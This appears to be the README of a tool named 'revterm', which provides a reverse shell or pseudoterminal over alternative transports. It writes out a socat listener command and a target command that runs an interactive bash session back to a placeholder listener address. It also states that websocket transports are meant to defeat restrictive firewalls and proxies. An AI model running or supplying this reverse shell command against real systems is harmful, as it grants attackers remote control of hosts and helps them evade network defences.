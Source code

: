 # revterm
Reverse shell / pseudoterminal via multiple and novel transports

The idea is to provide something akin to the following:
- listener: `socat file:$(tty),raw,echo=0 tcp-listen:4444`
- target: `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<listener-addr>:4444`

But with different transports, specifically websocket and secure websockets to defeat restrictive firewalls/proxies.

